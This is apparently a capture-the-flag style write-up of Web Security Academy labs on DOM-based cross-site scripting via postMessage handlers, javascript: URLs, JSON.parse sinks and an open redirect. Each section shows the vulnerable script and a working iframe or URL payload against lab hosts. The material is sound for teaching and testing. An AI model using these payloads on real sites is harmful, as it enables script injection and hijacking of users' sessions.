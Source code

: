 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```

## DOM XSS using web messages and a javascript URL
The page contains a sink in the form of a message event listener:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>              
```
Stage an exploit on a page that the user visits.
The iframe loads the target site and calls contextWindow.postMessage to trigger the event listener.
The message includes javascript for any (*) target origin
```
<iframe src="https://0a27003803718cf18050940e007f00d6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and *JSON.parse*
Similar vulnerability except the sink now calls JSON.parse(e.data) and returns if the validation fails.
The exploit payload delivers a JSON object where the url calls malicious javascript. 
```
<iframe src=https://0a55002603bafe7d81a09d2000d50006.web-security-academy.net/ onload='this.contentWindow.postMessage(JSON.stringify({type:"load-channel",url:"javascript:print()"}),"*")'>
```

## DOM XSS using redirect url 
The blog post page contains a "Back to Blog" button which redirects to the homepage. 
The button includes an anchor which uses regex to get the url, allowing an attacker to insert an arbitrary url as the query parameter.

```
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : &quot;/&quot;">Back to Blog</a>
```

Exploit is to add the url query parameter to the URL to add it to the location object. 
The regex will process it as the redirect url.
```
https://0ac700710410da51818e07ba00f3006b.web-security-academy.net/post?postId=10&url=https://exploit-0ac30026047cda8a81bd061a014900b6.exploit-server.net/
```

Mitigation: use strict validation against a whitelist of URLs